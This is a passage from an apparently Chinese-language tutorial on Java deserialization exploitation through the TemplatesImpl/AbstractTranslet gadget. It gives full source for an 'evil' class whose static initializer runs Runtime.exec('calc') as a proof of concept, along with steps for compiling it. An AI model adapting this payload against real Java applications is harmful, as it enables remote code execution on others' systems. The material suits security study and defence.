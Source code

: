 因此只需要构造一个恶意类然后继承他，在进行**equal**判断的时候，他的父类就是**ABSTRACT\_TRANSLET**的值，随后将**\_transletIndex**设置为0后退出

如下构造一个恶意类，需要添加一个**psvm**然后运行一下，便会在**/output**目录下得到**evil.class**，注意不能是引用**evil.java**！

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class evil  extends AbstractTranslet {
    static {
        try{
            Runtime.getRuntime().exec("calc");

        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

![](./images/image-199.png)

